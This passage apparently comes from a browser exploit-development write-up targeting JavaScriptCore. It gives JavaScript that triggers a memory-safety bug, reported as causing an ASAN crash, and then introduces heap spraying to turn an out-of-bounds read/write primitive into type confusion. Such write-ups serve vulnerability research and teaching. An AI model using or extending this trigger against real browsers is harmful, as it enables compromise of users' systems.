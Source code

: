 ``` 

let a = []

let len = 0x20000010 / 0x10

for(let i = 0; i < len; i++){
  a[i] = 1.1
}

let b = [];
b.length = 1;

b.__defineGetter__(0, () => {
  let x = new Array(0x10)
})

jitMe(a, b)
```

Gives us an ASAN error!![asan](./img/asan.png)

- [x] Trigger the vulnerability and crash with ASAN enabled

### Heap Spraying to Get Overlapping Allocations

Now that we can reliably trigger the vulnerability, we would like to use our OOB R/W primitive to further corrupt memory and get a type confusion primitive. The first step is to recompile JSC with ASAN disabled. After doing this we rerun exploit.js and get the following crash
